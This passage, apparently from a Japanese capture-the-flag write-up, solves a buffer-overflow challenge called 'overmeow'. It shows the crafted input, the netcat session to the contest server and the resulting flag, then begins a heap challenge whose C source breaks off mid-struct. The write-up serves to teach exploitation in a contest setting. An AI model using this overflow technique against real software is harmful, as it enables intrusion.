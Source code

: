 ELFファイルが与えられる。実行すると以下のように出力される(foobarは自分の入力)。

```
$ ./overmeow
　∧,,∧
（=・ω・）meow
（,, ｕｕ)

What's the cat's say?
foobar
[hint]: overflow == 0x0
secret != 0x6d646f77 :(
```

`overflow`というヒントが与えられているので、とりあえず長い入力を与えて何が起きるか見る。

```
$ ./overmeow
　∧,,∧
（=・ω・）meow
（,, ｕｕ)

What's the cat's say?
abcdefghijklmnopqrstuvwxyz0123456789
[hint]: overflow == 0x3534333231307a79
secret != 0x6d646f77 :(
```

`0x3534333231307a79`は`yz012345`なので、この箇所が`0x6d646f77`、つまり[`wodm`](https://gchq.github.io/CyberChef/#recipe=Swap_endianness('Hex',4,true)From_Hex('Auto')&input=MHg2ZDY0NmY3Nw)に一致するような入力を与えてみる。すると、フラグが得られた。

```
$ nc pw4-prod.2025winter-cybercontest.net 30001
　∧,,∧
（=・ω・）meow
（,, ｕｕ)

What's the cat's say?
abcdefghijklmnopqrstuvwxwodm
Yes, I'll give you a flag.
flag{I_will_Golondon}
```

## [PW] heapmeow (300pts)

> 猫ちゃんの鳴き声はなんですか?
> nc pw5-prod.2025winter-cybercontest.net 30001
> 【回答書式】 flag{n桁の半角英数記号}

以下のようなソースコードが与えられる。

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

const char* WELCOME =
    "　∧,,∧\n"
    "（=・ω・）\n"
    "（,, ｕｕ)\n"
    "Dog goes woof.\n"
    "Then, Cat?";

typedef struct {
    char name[12];
    char pattern[12];
    char says[5];
```